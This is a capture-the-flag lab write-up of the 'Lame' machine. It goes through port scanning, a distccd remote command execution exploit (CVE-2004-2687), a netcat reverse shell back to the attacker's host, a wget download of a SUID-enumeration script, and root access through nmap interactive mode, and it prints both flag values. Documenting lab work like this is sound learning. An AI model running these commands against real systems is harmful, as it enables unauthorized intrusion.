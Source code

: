 # Lame - Easy

## Enumeration
`sudo nmap 10.129.49.102 -p- -sV -vv -A --open --reason`

A few standard ports were open:
- 21 - FTP
```
| FTP server status:
|      Connected to 10.10.14.32
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
``````
- 22 - SSH 
```
OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
```
- 139/445 - NETBIOS
```
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  �           syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

```

One port of interest 
- 3632 - distccd

## Getting A Shell
Going through the FTP and NETBIOS further scans revealed nothing that could help.

The script for the `vsftpd` FTP server did not work even though it is the exploitable version.
(https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py)

However, searching more about 3632 - distccd yielded more information. There is an nmap script that could scan for vulnerabilities for distccd:
```
nmap -p 3632 10.129.93.142 --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'" -Pn

Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-09 22:45 EDT
Nmap scan report for ip-10-129-93-142.ap-southeast-1.compute.internal (10.129.93.142)
Host is up (0.037s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687

Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds

```

Found a script that could exploit it:
(https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

Started a listener on my machine and sent the exploit command on victim:
```
python2 distccd_rce_CVE-2004-2687.py -t 10.129.93.142 -p 3632 -c "nc 10.10.14.4 4444 -e /bin/sh"
[OK] Connected to remote service

nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.129.93.142] 58247

python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$
```

Obtaining the user flag was easy:
```
daemon@lame:/home/makis$ cat user.txt
cat user.txt
f7129c5573fe6328ded0a25f9db069a7
```

## Privilege Escalation
I found a python script that can search through SUIDs:
https://github.com/Anon-Exploiter/SUID3NUM

Hosted the file on my host machine and downloaded it into victim machine:
```
python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.129.93.142 - - [09/Oct/2023 23:01:21] "GET /suid3num.py HTTP/1.0" 200 -

daemon@lame:/tmp$ wget http://10.10.14.4:8888/suid3num.py
wget http://10.10.14.4:8888/suid3num.py
--23:01:48--  http://10.10.14.4:8888/suid3num.py
           => `suid3num.py'
Connecting to 10.10.14.4:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16,632 (16K) [text/x-python]

100%[====================================>] 16,632        13.64K/s             

23:01:49 (13.62 KB/s) - `suid3num.py' saved [16632/16632]
```

Running it yielded a result:
```
[#] SUID Binaries in GTFO bins list (Hell Yeah!)                                                        
------------------------------                                                                          
/usr/bin/nmap -~> https://gtfobins.github.io/gtfobins/nmap/#suid   
```
Getting root and root.txt was easy:
```
daemon@lame:/tmp$ nmap --interactive                                                                    
nmap --interactive                                                                                      
                                                                                                        
Starting Nmap V. 4.53 ( http://insecure.org )                                                           
Welcome to Interactive Mode -- press h <enter> for help                                                 
nmap> !sh                                                                                               
!sh                                                                                                     
sh-3.2# ls                                                                                              
ls                                                                                                      
5582.jsvc_up            distcc_eaebbc71.stderr  distccd_ea67bc71.o                                      
distcc_d081bc01.stdout  distccd_d0f8bc01.o      suid3num.py                                             
distcc_d148bc01.stderr  distccd_d0febc01.i      vgauthsvclog.txt.0                                      
distcc_ead3bc71.stdout  distccd_ea60bc71.i      vmware-root                                             
sh-3.2# cd /root                                                                                        
cd /root                                                                                                
sh-3.2# ls                                                                                              
ls                                                                                                      
Desktop  reset_logs.sh  root.txt  vnc.log                                                               
sh-3.2# cat root.txt                                                                                    
cat root.txt                                                                                            
0f0081518618299fe656be06b903e021
```

GG.